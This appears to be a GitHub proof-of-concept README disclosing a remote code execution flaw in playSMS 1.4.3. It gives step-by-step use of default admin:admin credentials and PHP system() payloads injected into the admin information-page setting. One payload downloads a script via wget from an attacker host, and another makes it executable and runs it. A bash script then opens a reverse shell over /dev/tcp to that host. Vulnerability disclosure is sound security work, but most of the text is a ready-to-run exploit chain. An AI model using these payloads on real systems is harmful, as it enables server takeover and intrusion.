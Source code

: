 # CVE-playsms


There is a vulnerability in playsms 1.4.3 that allows potential attackers to execute remote code execution.


## how to reproduce RCE (shell):

https://playsms.org/
* docker pull playsms/playsms:1.4.3
* docker run -d -p 80:80 playsms/playsms
* login using admin:admin
* http://127.0.0.1/index.php?app=main&inc=core_main_config&op=main_config#tabs-information-page
* host malicious bash file on attacker machine
* download the malicious file using wget on the machine
* enter `<?php system("/usr/bin/wget http://<attackerIP>/rev.sh"); echo "done" ?>`
* save the information (it will disappear from the input box but still work)
* http://127.0.0.1/index.php?app=main&inc=core_welcome
* reload the page http://127.0.0.1/index.php?app=main&inc=core_main_config&op=main_config#tabs-information-page
* chmod + execute the shell script - `<?php system("chmod +x rev.sh && ./rev.sh") ?>`)
* save and visit * http://127.0.0.1/index.php?app=main&inc=core_welcome to get code execution
* run local netcat handler to catch remote shell


## rev.sh
```bash
#!/usr/bin/bash
bash -c "bash -i >& /dev/tcp/<attackerIP>/1234 0>&1"
```

